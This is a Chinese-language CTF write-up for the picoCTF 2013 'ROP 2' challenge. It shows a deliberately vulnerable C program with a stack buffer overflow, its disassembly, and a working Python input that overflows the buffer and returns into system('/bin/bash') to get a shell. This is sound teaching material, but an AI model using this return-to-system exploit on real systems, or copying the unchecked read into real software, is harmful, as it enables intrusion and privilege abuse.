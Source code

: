 ```yaml
---
layout: post
title: ROP 2
categories: writeups
tags: pwn
ctfsite: picoctf-2013
challenge_url: https://github.com/picoCTF/picoCTF-2013-problems/tree/master/ROP%202
---
```


这是 [ROP 1]({% url_by_slug picoctf-2013-rop-1 %}) 的进阶版。`not_called` 不再直执行 `/bin/bash`：

```c
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char * not_used = "/bin/bash";

int not_called() {
	return system("/bin/date");
}

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 256);
}

void be_nice_to_people() {
	// /bin/sh is usually symlinked to bash, which usually drops privs. Make
	// sure we don't drop privs if we exec bash, (ie if we call system()).
	gid_t gid = getegid();
	setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
    be_nice_to_people();
	vulnerable_function();
	write(STDOUT_FILENO, "Hello, World\n", 13);
}
```

{% include writeup_begin.html %}

由于 `not_called` 不再直接调用 `system("/bin/bash")`，我们需要修改传入 `system` 的参数。`system` 只接受一个参数，对于 32 位程序来说，当我们调用 `system` 时，栈顶的数据就会被传入 `system`。

考虑到 `vulnerable_function` 没有参数，那么在函数返回后，esp 就会变为当前 ebp + 4，也就是返回地址再下面 4 个字节。所以只要我们把 `not_used` 的地址写到返回地址的下方，再直接调用 `call system` 就可以了。

首先看一下 `not_used` 中 `call system` 一句的地址：

```.asm
/ (fcn) sym.not_called 20
|   sym.not_called ();
|           0x080484a4      push ebp
|           0x080484a5      mov ebp, esp
|           0x080484a7      sub esp, 0x18
|           0x080484aa      mov dword [esp], str.bin_date ; [0x804861a:4]=0x6e69622f ; "/bin/date" ; const char *string
|           0x080484b1      call sym.imp.system ; int system(const char *string)
|           0x080484b6      leave
\           0x080484b7      ret
```

我们就直接返回到 `0x080484b1` 即可；再看一下 `not_used` 字符串的地址：

```
[0x080483f0]> iz
000 0x00000610 0x08048610   9  10 (.rodata) ascii /bin/bash
001 0x0000061a 0x0804861a   9  10 (.rodata) ascii /bin/date
002 0x00000624 0x08048624  13  14 (.rodata) ascii Hello, World\n
```

地址是 `0x08048610`。因此构造一下输入：

```python
python -c "print '0' * 0x88 + '0000\xb1\x84\x04\x08\x10\x86\x04\x08' + '0' * (256 - 0x88 - 12) + 'whoami\x0a'" | ./rop2-20f65dd0bcbe267d
                              ↑EBP ↑----返回地址----↑----栈顶内容----↑   ↑缓冲区剩余部分
```

就可以了。这段输入将在打开的 bash 中执行 `whoami`，打印出当前用户。由于不明原因，我的 Ubuntu 18.04 无法使用 cat 继续读入标准输入，所以只好把命令加在输入的 256 个字符之后了。

{% include writeup_end.html %}
